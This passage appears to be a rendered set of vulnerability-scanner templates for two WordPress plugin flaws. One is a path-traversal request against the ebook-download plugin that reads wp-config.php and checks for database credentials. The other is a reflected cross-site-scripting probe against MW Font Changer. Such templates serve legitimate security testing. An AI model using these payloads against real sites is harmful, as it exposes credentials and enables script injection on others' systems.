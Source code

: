 - severity - high
- tags - cve,wordpress,edb,cve2016,wp-plugin,lfi,ebook,wp,wpscan
## Requests
- Method - GET
### URL
- {{BaseURL}}/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../wp-config.php
### Matchers

**Type - word**
- part - body
- words
    1. DB_NAME
    2. DB_PASSWORD
- condition - and

**Type - status**
- status
    1. 200

---
# WordPress MW Font Changer \<=4.2.5 - Cross-Site Scripting
## Description
- WordPress MW Font Changer plugin 4.2.5 and before contains a cross-site scripting vulnerability which allows an attacker to execute arbitrary script code in the browser of an unsuspecting user in the context of the affected site. This can allow the attacker to steal cookie-based authentication credentials and launch other attacks.
- severity - medium
- tags - cve2016,wordpress,wp-plugin,xss,wpscan,cve
## Requests
- Method - GET
### URL
- {{BaseURL}}/wp-content/plugins/parsi-font/css.php?size=%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E
### Matchers

**Type - word**
- words
    1. \</script>\<script>alert(document.domain)\</script>
- part - body

**Type - word**
- part - header
- words
    1. text/html
